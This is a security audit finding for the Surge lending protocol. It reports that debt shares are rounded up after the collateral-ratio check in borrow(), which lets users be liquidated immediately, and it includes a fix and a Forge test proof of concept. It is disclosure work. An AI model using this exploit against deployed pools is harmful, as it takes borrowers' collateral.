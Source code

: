 Bobface

high

# Users borrowing at maximum collateral ratio can be immediately liquidated

## Summary
Users who borrow from the pool at the maximum allowed collateralization ratio can be immediately liquidated, even though the [`borrow`](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L455) method checks that this should not be the case.

## Vulnerability Detail
[`Pool.borrow()`](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L455) handles user loan token borrows. A user is allowed to borrow up to a maximum collateralization ratio:

```solidity
uint _debtSharesSupply = debtSharesSupply;
uint userDebt = getDebtOf(debtSharesBalanceOf[msg.sender], _debtSharesSupply, _currentTotalDebt) + amount;
uint userCollateralRatioMantissa = userDebt * 1e18 / collateralBalanceOf[msg.sender];
require(userCollateralRatioMantissa <= _currentCollateralRatioMantissa, "Pool: user collateral ratio too high");
```

This block should prevent users from borrowing too much `loanToken` from the pool and thus being immediately liquidatable. Further down in the method's body, the `debtShares` are calculated and added to the user's account:

```solidity
uint _shares = tokenToShares(amount, _currentTotalDebt, _debtSharesSupply, true);
_currentTotalDebt += amount;

// commit current state
debtSharesBalanceOf[msg.sender] += _shares;
debtSharesSupply = _debtSharesSupply + _shares;
```

The issue here is that when `true` is passed as the last parameter `roundUpCheck` to `tokenToShares`, the result is rounded up if necessary:
```solidity
if(_supplied == 0) return _tokenAmount;
uint shares = _tokenAmount * _sharesTotalSupply / _supplied;
if(roundUpCheck && shares * _supplied < _tokenAmount * _sharesTotalSupply) shares++;
return shares;
```

This results in the user being credited a minimally larger amount of debt than they actually owe. This only happens after the collateralization ratio check and is not detected by any later checks.

## Impact

The minimal excess debt is enough to push the user into being undercollateralized and thus liquidatable via `liquidate()`. This results in the user immediately losing all deposited funds, as liquidations do not pay back collateral to the liquidated users (see logic in `liquidate()`).

## Recommendation
In `borrow()`, perform the collateralization ratio check only after the shares have been added to the user's account:
```solidity
// ...

/* --- Current location of collateralization check --- */

uint _newUtil = getUtilizationMantissa(_currentTotalDebt + amount, (_currentTotalDebt + _loanTokenBalance));
require(_newUtil <= SURGE_MANTISSA, "Pool: utilization too high");

uint _shares = tokenToShares(amount, _currentTotalDebt, _debtSharesSupply, true);
_currentTotalDebt += amount;

// commit current state
debtSharesBalanceOf[msg.sender] += _shares;
debtSharesSupply = _debtSharesSupply + _shares;
totalSupply = _currentTotalSupply;
lastTotalDebt = _currentTotalDebt;
lastAccrueInterestTime = block.timestamp;
lastCollateralRatioMantissa = _currentCollateralRatioMantissa;

/* --- New location of collateralization check --- */
uint _debtSharesSupply = debtSharesSupply;
uint userDebt = getDebtOf(debtSharesBalanceOf[msg.sender], _debtSharesSupply, _currentTotalDebt) + amount;
uint userCollateralRatioMantissa = userDebt * 1e18 / collateralBalanceOf[msg.sender];
require(userCollateralRatioMantissa <= _currentCollateralRatioMantissa, "Pool: user collateral ratio too high");

// ...
```

## Tool used

Manual Review


## Code Snippet
The PoC is implemented as Forge test. Add the following code as `Liquidation.t.sol` to `/test` and run it using `forge test -m testLiquidations -vv`. You should see output similar to this:
```bash
Running 1 test for test/Liquidation.t.sol:Liquidation
[PASS] testLiquidations() (gas: 9750646)
Logs:
  Liquidated user
```

Code:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "forge-std/Test.sol";

import "../src/Pool.sol";
import "../src/Factory.sol";

contract Liquidation is Test {
    function testLiquidations() external {
        // Deploy the loan token
        TestingERC20 loanToken = new TestingERC20();

        // Deploy the collateral token
        TestingERC20 collateralToken = new TestingERC20();

        // Deploy the factory
        Factory factory = new Factory(address(this), "test");

        // Deploy the pool
        Pool pool = factory.deploySurgePool(
            IERC20(address(collateralToken)),
            IERC20(address(loanToken)),
            uint256(10**36) / uint256(3 * 10**18),
            1 ether - 1,
            1,
            1,
            1 ether - 1,
            1 ether - 1,
            1 ether - 1
        );

        // Seed the pool with loan tokens,
        // just so we don't run into utilization issues.
        loanToken.mint(address(pool), 100_000);

        // Deposit and borrow some funds
        User someUser = new User(pool, collateralToken);
        someUser.addCollateral(100);
        someUser.borrow(10);

        // Simulate accruing interest
        vm.warp(block.timestamp + 5_000_000);
        vm.roll(block.number + 1);

        // The user who will be liquidated enters the pool at maximum collateral ratio
        User liquidatedUser = new User(pool, collateralToken);
        liquidatedUser.addCollateral(3);
        liquidatedUser.borrow(1);

        // Gets immediately liquidated
        loanToken.mint(address(this), 2);
        pool.liquidate(address(liquidatedUser), type(uint256).max);
        console.log("Liquidated user");
    }
}

contract User is Test {
    Pool pool;
    TestingERC20 collateralToken;

    constructor(Pool _pool, TestingERC20 _collateralToken) {
        pool = _pool;
        collateralToken = _collateralToken;
    }

    function addCollateral(uint256 amount) external {
        deal(address(collateralToken), address(this), amount);
        pool.addCollateral(address(this), amount);
    }

    function borrow(uint256 amount) external {
        pool.borrow(amount);
    }
}

contract TestingERC20 {
    mapping(address => uint256) public balanceOf;

    function mint(address addr, uint256 amount) external {
        balanceOf[addr] += amount;
    }

    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public {
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
    }

    function transfer(address to, uint256 amount) external {
        transferFrom(msg.sender, to, amount);
    }
}

```